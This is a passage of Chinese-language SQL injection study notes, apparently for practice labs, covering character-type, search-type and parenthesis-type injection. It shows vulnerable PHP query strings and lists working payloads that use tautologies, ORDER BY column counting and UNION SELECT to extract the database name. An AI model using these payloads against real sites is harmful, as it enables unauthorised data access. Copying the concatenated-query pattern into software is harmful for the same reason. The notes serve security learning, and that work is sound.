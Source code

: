 #### HIGH

```sql
'
1' and '1'='1
```

字符型注入

```php
$query = "SELECT first_name, last_name FROM users WHERE user_id = '$id' LIMIT 1;";
```

LIMIT 1 限制了输出，可通过#将其注释掉，注释过程与 low 级别相同。

#### 搜索型注入

搜索语句：

```sql
select username,id,email from member where username like '%1%’ and 1=1 and '%'='%'
```

payload：

```sql
'
xxx%' and 1=1 and '%'='
xxx%' and 1=1 #
'
xxx%' or 1=1 #
'
xxx%' and 1=1 order by 13 #
'
x%' union select 1,2,database() #获取数据库名
```

#### xx 型注入

查询语句：

```sql
select id,email from member where username=('$name')
```

payload：

```sql
'
lili') and 1=1 #
'
lili') or 1=1 #
'
lili') and 1=1 order by 2 #
'
lili') union select 1,database() #
```

#### "insert/update"注入
